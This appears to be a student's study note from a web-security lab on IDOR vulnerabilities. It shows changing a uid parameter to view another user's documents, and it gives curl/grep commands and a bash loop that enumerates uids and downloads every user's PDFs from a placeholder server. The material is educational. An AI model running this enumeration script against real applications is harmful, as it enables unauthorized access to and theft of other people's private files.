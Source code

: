Exploiting IDOR vulnerabilities is easy in some instances but can be very challenging in others. Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

## Insecure Parameters
Web application sets the `uid` parameter 1. 

http://SERVER_IP:PORT/documents.php?uid=1
![[Pasted image 20250220163603.png]]

The documents attached to this `uid` have the following naming convention:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

Invoice_UID_MONTH_YEAR.pdf
Report_UID_MONTH_YEAR.pdf

This is the most basic type of IDOR vulnerability and is called `static file IDOR`. However, to successfully fuzz other files, we would assume that they all start with `Invoice` or `Report`, which may reveal some files but not all


Change the `uid` in the URL to 2 to see if we can access another users documents.

http://SERVER_IP:PORT/documents.php?uid=2
![[Pasted image 20250220164002.png]]

Confirm but checking the attached documents names, which are now
```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

### Exploit Automation
The source code of the webpage and the documents goes as so
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can grep out `<li class='pure-tree_link'>` to just get the links and the further grep it out to just get the document paths.

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

Now a simple batch script that using a for loop to list out all of the documents and download them

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```